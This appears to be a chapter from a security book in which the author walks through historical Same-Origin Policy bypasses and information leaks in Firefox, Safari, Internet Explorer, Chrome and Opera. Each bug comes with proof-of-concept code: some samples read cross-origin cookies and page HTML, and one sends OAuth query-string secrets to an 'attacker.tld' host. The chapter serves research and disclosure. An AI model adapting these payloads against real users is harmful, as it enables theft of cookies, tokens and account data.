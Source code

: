 # Browser Exploits

## Introduction

A book on JavaScript hacking wouldn't be complete without a chapter dedicated to browser exploits. Over the years, I've discovered various exploits in major browser engines, primarily during my spare time. I've been in the field of browser hacking for over 15 years, and during this time, I managed to find a Same-Origin Policy (SOP) bypass or information leak in every major browser engine.

Browser hacking is a niche yet fascinating area of research. It provides valuable insights that can be applied to other fields of cybersecurity. In this chapter, I will not present these exploits chronologically but will start with simpler bugs and gradually move on to more complex SOP bypasses.

## Firefox Incorrect Handling of Cross-Origin URLs

**Overview**

This Firefox bug was surprisingly simple, and it was unexpected that Mozilla’s automated tests didn’t catch it. The issue occurred when opening cross-origin windows and inspecting cross-origin objects.

**Exploit Details**

When you call `window.open`, the return value is a reference to the new window object. Unlike the normal window object, many properties are unavailable and throw exceptions when accessed. This restriction is essential because it prevents data theft from different origins, which could compromise user accounts.

The exploit allowed reading the `location` object of the new window after a delay, which should not be possible due to SOP. Here’s how it was done:

```html
<script>
function poc() {
    var win = window.open('https://twitter.com/lists/', 'newWin', 'width=200,height=200');
    setTimeout(function() {
        alert('Hello ' + /^https:\/\/twitter.com\/([^/]+)/.exec(win.location)[1]);
    }, 5000);
}
</script>
<input type=button value="Firefox knows" onclick="poc()">
```

**Explanation**

* **Step 1:** Open a new window pointing to a Twitter list URL.
* **Step 2:** Wait for 5 seconds, allowing redirection to a personalized URL.
* **Step 3:** Attempt to read the `location` object and extract the Twitter username using a regular expression.

## Safari Assignments to Cross-Origin Hostnames

**Overview**

In earlier times, browser hacking was more straightforward. This Safari bug illustrates the dangers of allowing assignments to cross-origin location objects.

**Exploit Details**

The issue involved setting the hostname of a cross-origin location object. Safari retained the query string and hash, which could contain sensitive information. Today, such a vulnerability could target OAuth tokens.

Here's how the exploit worked:

```html
<script>
function poc(iframe) {
    var win = iframe.contentWindow;
    setTimeout(function() {
        win.location.hostname = 'attacker.tld';
    }, 5000);
}
</script>
<iframe src="https://oauth.example.com" onload=poc(this)></iframe>
```

**Explanation**

* **Step 1:** Load an iframe pointing to a URL that performs authentication and contains sensitive data in the query string.
* **Step 2:** Wait for the page to load, then change the hostname of the iframe to the attacker's domain.
* **Step 3:** The attacker reads `location.search` on their domain to steal the secrets.

Modern browsers now prevent read/write access to host and hostname properties for cross-origin objects.

## Internet Explorer Full SOP Bypass

**Overview**

This bug was discovered while contracting for Microsoft, testing Internet Explorer (IE) features. The bug allowed executing arbitrary JavaScript on any domain, bypassing SOP.

**Exploit Details**

IE leaked a cross-origin constructor, allowing the Function constructor to be called from a different domain.

Here’s the proof of concept:

```html
<iframe src="https://garethheyes.co.uk" onload="this.contentWindow.closed.constructor.constructor('alert(document.cookie)')()"></iframe>
```

**Explanation**

* **Step 1:** Load an iframe pointing to an external domain.
* **Step 2:** Access the `closed` property, a boolean value, and chain it to call the Function constructor twice.
* **Step 3:** Execute arbitrary JavaScript with full access to the cross-origin window object.

## Chrome Partial SOP Infoleak

**Overview**

This bug in Chrome related to how `document.baseURI` was handled with nested iframes from different subdomains. The exploit allowed disclosing the entire URL of a cross-site iframe.

**Exploit Details**

Using nested iframes, the baseURI property of a nested iframe was incorrectly reported from the parent.

Here's the initial page setup:

```html
index.html:
<script>
onload = function() {
    x.contentWindow[0].location = 'about:blank';
    setTimeout(() => alert(x.contentWindow[0].document.baseURI), 500);
};
</script>
<iframe id=x src="//subdomain1.portswigger-labs.net/chrome-infoleak/target.html"></iframe>
```

**Explanation**

* **Step 1:** Load an iframe pointing to a subdomain URL.
* **Step 2:** Change the URL of the nested iframe to `about:blank`.
* **Step 3:** Read the `document.baseURI` property, which incorrectly shows the parent URL.

## Safari Full SOP Bypass

**Overview**

This bug was initially dismissed by Apple as a minor issue. However, it was a full SOP bypass that allowed reading cookies and HTML of any domain.

**Exploit Details**

Using nested iframes with an `about:blank` URL, you could access the innermost frame's document and read the content.

Here’s the full exploit:

```html
<script>
function breakSandbox() {
    var doc = window.frames.loader.document;
    var html = '';
    html += '<p>test</p><iframe src="http://www.amazon.co.uk/" id="iframe" name="iframe" onload="alert(window.frames.iframe.document.getElementsByTagName(\'body\')[0].innerHTML);alert(window.frames.iframe.document.cookie);"></iframe>';
    doc.body.innerHTML = html;
}
</script>
<iframe src="about:blank" name="loader" id="loader" onload="breakSandbox()"></iframe>
```

**Explanation**

* **Step 1:** Load an iframe pointing to an `about:blank` URL.
* **Step 2:** Inject another iframe inside it, pointing to an external domain.
* **Step 3:** Access and alert the inner HTML and cookies of the external domain.

## Opera SOP Bypass

**Overview**

This is one of my favorite browser bugs because it shows how SOP can be bypassed unexpectedly. The exploit involves manipulating prototype methods to execute arbitrary JavaScript.

**Exploit Details**

Opera leaked constructors in multiple places, allowing for cross-origin execution of arbitrary JavaScript.

Here’s the proof of concept:

```javascript
iframe.contentWindow.location.constructor.prototype.__defineGetter__.constructor('[].constructor.prototype.join=function(){alert("PWND:"+document.body.innerHTML)}')();
```

**Explanation**

* **Step 1:** Access the cross-origin location object to get the `__defineGetter__` property.
* **Step 2:** Use the constructor to define a custom `join` method on the Array prototype.
* **Step 3:** Execute the alert with the contents of the external domain’s body.

## Summary

I hope you enjoyed this chapter as much as I enjoyed writing it. Finding flaws in SOP is a technical challenge that provides a real sense of accomplishment. This chapter covered:

* Firefox’s flawed handling of the cross-origin location object.
* Safari's vulnerability to hostname assignments in cross-origin objects.
* Internet Explorer’s full SOP bypass with arbitrary JavaScript execution.
* Chrome’s info leak of subdomain URLs using nested iframes.
* Safari’s full SOP bypass allowing access to cookies and HTML.
* Opera’s unexpected SOP bypass using prototype methods.

I hope this chapter inspires you to explore and find your own browser vulnerabilities in modern browsers.

***
